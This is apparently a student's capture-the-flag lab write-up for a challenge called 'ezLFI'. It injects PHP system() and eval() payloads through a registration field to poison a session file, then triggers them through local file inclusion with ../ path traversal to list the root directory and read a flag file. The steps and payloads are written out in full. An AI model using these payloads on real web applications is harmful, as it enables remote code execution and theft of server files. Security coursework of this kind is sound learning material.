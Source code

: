 # Lab0x03 Writeup

## ezLFI
1. https://edu-ctf.csie.org:10157/?action=register
post data: user=<?php system("ls /"); ?>

<?php eval('system(ls /);');
flag-66666666666
2. sessid = 7tmue803aqp8nrqvscbu5kufl4
3. finally https://edu-ctf.csie.org:10157/?action=module&m=../../../../var/lib/php/session/sess_7tmue803aqp8nrqvscbu5kufl4

<?php system('echo $(ls /);');?>
<?php eval('echo `ls /`;');?>
<?php eval('echo `cat /flag-66666666666`;');?>
